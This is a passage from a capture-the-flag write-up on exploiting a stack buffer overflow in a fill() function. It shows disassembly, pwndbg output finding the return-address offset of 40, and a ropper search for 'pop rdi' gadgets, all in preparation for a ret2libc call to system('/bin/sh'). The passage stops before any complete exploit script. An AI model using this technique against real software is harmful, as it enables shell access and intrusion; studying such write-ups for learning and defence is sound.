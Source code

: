 Looking at the stack layout in the dissassembly, we can see that the array our input is stored in is only ```0x28``` bytes long.
```asm
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined fill()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[1]:     00400e6a(W)  
             undefined8        Stack[-0x18]:8 local_18                                XREF[1]:     00400e62(W)  
             undefined8        Stack[-0x20]:8 local_20                                XREF[1]:     00400e5a(W)  
             undefined8        Stack[-0x28]:8 local_28                                XREF[3]:     00400e52(W), 
                                                                                                   00400ebc(*), 
                                                                                                   00400ed2(*)  
                             fill                                            XREF[4]:     Entry Point(*), main:00400fee(c), 
                                                                                          00401318, 00401448(*)  
        00400e4a 55              PUSH       RBP
```

Without any interesting functions or variables to return into, we should aim to craft a ret2libc exploit.

## Pwn

First, we need to find the offset to the ```rip```. Let's open up pwndbg, place a breakpoint at the return instruction, generate a cyclic patter, and search for whatever is in ```rip``` when the function returns.
```
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Great, now we have our offset. 

### Outline for system call

The next step is to outline a plan of attack to get to call ```system()```. The argument we want to pass to ```system()``` will be the string command to call the shell, ```/bin/sh```. Since this is 64 bit, the string will need to be loaded into ```rdi``` to be called as an argument for ```system()```. To do this, we will need to search for a rop gadget to pop rdi and return.
```
pwndbg> ropper -- --search "pop rdi"
Saved corefile /tmp/tmpmk2xrq8p
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /tmp/tmpmk2xrq8p
0x00007ffff7fe2f1b: pop rdi; jne 0x7ffff80722c0; add rdx, 8; add rax, 3; mov qword ptr [rdi], rdx; ret; 
0x00007ffff7fc99c1: pop rdi; pop rbp; ret; 
```